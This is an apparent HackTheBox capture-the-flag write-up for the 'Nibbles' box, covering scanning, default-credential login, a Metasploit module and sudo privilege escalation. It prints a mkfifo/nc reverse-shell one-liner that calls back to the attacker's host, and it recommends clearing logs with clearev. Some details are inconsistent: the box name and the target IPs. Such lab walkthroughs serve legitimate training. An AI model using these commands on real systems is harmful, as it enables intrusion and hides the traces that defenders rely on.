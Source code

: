 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

Bashed is a beginner's box which was the first CTF I ever attempted. When I tried it, I had booted up Kali and knew that a couple tools existed, but did not have any strategies, context or experience. 

This write up assumes that the reader is using Kali, but any pentesting distro such as [BlackArch](https://blackarch.org/) will work. The tools come with a stock Kali installation, unless otherwise mentioned.

## 1. Initial Scanning

As usual on HTB we only have the IP in the network so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.

Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Interesting. /nibbleblog/
Therefore we use DIRB against /nibbleblog/. DIRB is a Web Content Scanner.

`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/p566uDd.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. 

Easy-Peasy.

`admin:nibbles`

![1break](https://i.imgur.com/17wiJUm.png)

We're in! 

After a while of searching the webinterface and not getting any further I decided to check for exploits. 

I looked up for any exploit with nibble in it and GOTCHA.  
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

Of course, I used the metasploit exploit, so I called in the msf console.

## 3. Exploit

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.
Metasploit currently has over 1677 exploits, organized under the following platforms: AIX, android, bsd, bsdi, cisco, firefox, freebsd, hpux, irix, java, javascript, linux, mainframe, multi (applicable to multiple platforms), netbsd, netware, nodejs, openbsd, osx, php, python, R, ruby, solaris, unix, and windows.

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.

I found a zip within home/nibbler with a monitor.sh in it.
To de-zip, or execute files you always have to call the `shell` first.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echo "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab, since I was stuck here.

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

`cat /home/nibbles/user.txt` - user flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 

Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









